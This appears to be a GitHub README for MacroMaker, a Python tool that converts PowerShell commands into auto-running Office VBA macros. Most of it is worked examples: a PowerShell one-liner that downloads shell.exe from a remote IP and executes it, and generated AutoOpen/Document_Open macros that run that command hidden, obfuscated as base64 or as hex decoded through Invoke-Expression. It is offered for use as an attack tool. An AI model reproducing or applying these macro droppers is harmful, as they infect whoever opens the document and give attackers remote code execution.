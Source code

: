 # MacroMaker
*****************************
### what is Macros :
* Macros are special-purpose programs used to automate procedures within a bigger application or software. Usually a macro consists of a series of      commands and actions written in a dedicated Macro Language or a standard programming language. These commands will be executed automatically by the application when a certain trigger takes place.

* Macros are implemented extensively within Office Suites to allow the automation of common tasks and procedures. Different suites use different macro  languages, but some notable mentions are Visual Basic for Applications (MS Office), LibreOffice Basic (LibreOffice) and OpenOffice Basic (OpenOffice).

* Most Office macro languages have rather extensive features and can access various resources. For example, MS Office macros (written in VBA) can run  executables and use networking capabilities.
* Macro  can  use to  generate malicious  Microsoft Word or Microsoft Excel document  
* [reference](https://www.cynet.com/attack-techniques-hands-on/office-macro-attacks/)
* [Microsoft Doc](https://support.microsoft.com/en-us/office/macros-in-office-files-12b036fd-d140-4e74-b45e-16fed1a7e5c6)
### what is MacroMaker-
-------------------------------------
 * MacroMake is Script witten by python3 help to genertate  VBA  code ready to use
  - MacroMaker Take the powershell command as  aragnent  then will treanset the command to VBA code,  
  ready to  executed automatically any command  in  background
    - Executes PowerShell   or Uses networking capabilities to download files from remote servers ..etc
 * MacroMaker have to way to Gentate thr VBA code 
   - encode base16
   - hexformat

### How to enable-develope   -
-------------------------------------
 ### - enable Develope mode  to can inster macro in to microsoft-office 
 *  The Developer tab isn't displayed by default, but you can add it to the ribbon.
 - 1- On the File tab, go to Options > Customize Ribbon.
 - 3- Under Customize the Ribbon and under Main Tabs, select the Developer check box.
 * [reference](https://www.groovypost.com/howto/enable-developer-tab-microsoft-office-ribbon/)

 ## How to Use MacroMacker - 
 -----------------------------------------
 * git clone https://www.github.com/jac11/MacroMaker.git
 * cd MacroMaker
 * chmod +x MacroMaker.py
 * to see the help list MacroMaker.py -h/--help
 ## explain :-
----------------------------------------
 incace i need to download file and exctue after download i use powershaell  - 
 ```
 (New-Object Net.WebClient).DownloadFile('http://10.195.100.221:8000/shell.exe',' C:\Users\Public\Documents\shell.exe');Start-Process (' C:\Users\Public\Documents\shell.exe')
 ```
- this code will download file from the server then will excxut it after download to use as VBA use Macromacker
- ./Macromaker.py <-c the poweshell code > <-n the file name to  save output > 
- ./MacroMaker.py -c "(New-Object Net.WebClient).DownloadFile('http://10.195.100.221:8000/shell.exe',' C:\Users\Public\Documents\shell.exe');Start-Process (' C:\Users\Public\Documents\shell.exe')" -n code
```
$ ./MacroMaker.py -c "(New-Object Net.WebClient).DownloadFile('http://10.195.100.221:8000/shell.exe',' C:\Users\Public\Documents\shell.exe');Start-Process (' C:\Users\Public\Documents\shell.exe')" -n code
```
* output VBA Script 
```

Sub AutoOpen()
'
'
AutoOpenMacro
'
'
End Sub
Sub Document_Open()
    AutoOpenMacro
End Sub
Sub AutoOpenMacro()
	Dim Str As String
	Str= str+"powershell -e KABOAGUAdwAtAE8AYgBqAGUAYwB0ACAATgBlAHQA"
	Str= str+"LgBXAGUAYgBDAGwAaQBlAG4AdAApAC4ARABvAHcAbgBsAG8AYQBkAE"
	Str= str+"YAaQBsAGUAKAAnAGgAdAB0AHAAOgAvAC8AMQAwAC4AMQA5ADUALgAx"
	Str= str+"ADAAMAAuADIAMgAxADoAOAAwADAAMAAvAHMAaABlAGwAbAAuAGUAeA"
	Str= str+"BlACcALAAnACAAQwA6AFwAVQBzAGUAcgBzAFwAUAB1AGIAbABpAGMA"
	Str= str+"XABEAG8AYwB1AG0AZQBuAHQAcwBcAHMAaABlAGwAbAAuAGUAeABlAC"
	Str= str+"cAKQA7AFMAdABhAHIAdAAtAFAAcgBvAGMAZQBzAHMAIAAoACcAIABD"
	Str= str+"ADoAXABVAHMAZQByAHMAXABQAHUAYgBsAGkAYwBcAEQAbwBjAHUAbQ"
	Str= str+"BlAG4AdABzAFwAcwBoAGUAbABsAC4AZQB4AGUAJwApAA=="
	CreateObject("Wscript.shell").Run Str , 0, True 
End Sub



```
* to use same command and get  output  as hex  code user --hex option
```
./MacroMaker.py -c "(New-Object Net.WebClient).DownloadFile('http://10.195.100.221:8000/shell.exe',' C:\Users\Public\Documents\shell.exe');Start-Process (' C:\Users\Public\Documents\shell.exe')" -n code --hex
```
* output 
```
Sub AutoOpen()
'
'
AutoOpenMacro
'
'
End Sub
Sub Document_Open()
    AutoOpenMacro
End Sub
Sub AutoOpenMacro()
	Dim Hex As String
	Hex ="powershell.exe $hexString ='"& _
	"28 4e 65 77 2d 4f 62 6a 65 63 74 20 4e 65 74 2e 57 65 62 43 6c 69 65 6e 74 29 2e"& _
	" 44 6f 77 6e 6c 6f 61 64 46 69 6c 65 28 27 68 74 74 70 3a 2f 2f 31 30 2e 31 39 35"& _
	" 2e 31 30 30 2e 32 32 31 3a 38 30 30 30 2f 73 68 65 6c 6c 2e 65 78 65 27 2c 27 20"& _
	" 43 3a 5c 55 73 65 72 73 5c 50 75 62 6c 69 63 5c 44 6f 63 75 6d 65 6e 74 73 5c 73"& _
	" 68 65 6c 6c 2e 65 78 65 27 29 3b 53 74 61 72 74 2d 50 72 6f 63 65 73 73 20 28 27"& _
	" 20 43 3a 5c 55 73 65 72 73 5c 50 75 62 6c 69 63 5c 44 6f 63 75 6d 65 6e 74 73 5c"& _
	" 73 68 65 6c 6c 2e 65 78 65 27 29'"& _
	";$hexString.Split(' ') | forEach {[char]([convert]::toint16($_,16))}"& _
	"| forEach {$result = $result + $_};Set-Variable -Name 'ROT' -Value ($result);Invoke-Expression $ROT "
	Set WshShell = CreateObject("Wscript.Shell")
	WshShell.Run Hex, 0, True
End Sub
```
* output  will save in the MacroStore folder under the name  user give it - n <the name >
  
<img src = "images/1.png" width=350>  <img src = "images/2.png" width=350>
-----------------------------------------------------------------
### video tutorial
--------------------
[![video tutorial](https://www.youtube.com/watch?v=B_i066ZqvPc)
	
- rootx1982@gmail.com
-  thank you 
